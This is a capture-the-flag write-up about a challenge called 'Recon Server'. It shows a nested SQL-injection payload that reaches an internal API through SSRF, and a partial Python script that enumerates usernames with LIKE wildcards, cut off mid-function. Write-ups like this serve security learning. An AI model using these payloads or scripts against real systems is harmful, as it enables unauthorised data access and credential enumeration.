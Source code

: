 `flag{99309f0f-1752-44a5-af1e-a03e4150757d}`

Flag11 - Recon Server
---------------------
Let me preface this by saying:  this is by far the hardest challenge on this CTF. It drained me of anything that I had left, from hope to sleep to enjoyment to humor (nah I'm lying I'm still gonna crack some jokes here and there). Kudos to Adam for making this but at the same time, I don't really like you after this.😉 

Let's visit the page we discovered from finishing the previous challenge.

{F1140019}

After hopping around for a bit, `sqlmap` actually found an SQLi entry point in the hash parameter at `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k`. After dumping the DB I was left with nothing but insignificant crumbles.
I knew there was an API system in place by visiting the `/api/` endpoint but it looked like it could be accessed only within the internal network.
The hint dropped by Adam was a reference to the Inception movie (I'll come clean and say I've never watched the movie even though I knew the general plot. I'm sorry movies fanatics, I'll make up to you one day). 

{F1140022}

This is where I started talking to osama.alaa (big shoutout to him) and after bouncing ideas off each other for a while we came to the conclusion of SQLi inside an SQLi, hence the movie reference What is this sorcery? Uncharted territory, to say the least. I'll fast forward the next part because it's pretty boring but it took MANY hours to finally get a working query 

```sql
hash=' UNION SELECT "' UNION SELECT 'null.jpg',null,'../api/user?username=test&password=test'-- -",null,1-- -
```

This results in a broken image, but once we open it in a new tab and hit `/r3c0n_server_4fdk59/picture?data=` the payload decodes to `{"image":"r3c0n_server_4fdk59\/uploads\/..\/api\/user?username=test&password=test","auth":"e645ca4b7a504c524e2cc1fb44fe02cc"}`

This how we were able to achieve an SSRF to hit the `/api` endpoints. I *just* needed an SQLi inside another SQLi inside another SQLi inside another S....😓

The next steps consist of discovering what endpoint we could hit and the right parameters to use. Once that was out of the way, it was time to enumerate a valid user by sending requests to the `/api/user` endpoint. The tricky part and I have to shoutout @mcipekci for pointing me in the right direction, was using the `%` character in an SQL `LIKE` statement. This allows recursive queries to be made to enumerate our user. 

This is the resulting script:

```python
import requests
import re
from string import printable

base_username=''
base_password=''

def search_username(username):
    for c in printable:
        if c == '_' or c == '%':
            c = "\\" + c
        r=requests.get('https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=\' UNION SELECT "\' UNION SELECT \'null.jpg\',null,\'../api/user?username={}{}%\'-- -",null,1-- -'.format(username,c))
        regex=re.search('data=.*\"', r.text)
        data_param=regex.group(0)
        data_param = data_param[:-1]
        r2=requests.get('https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?{}'.format(data_param))
```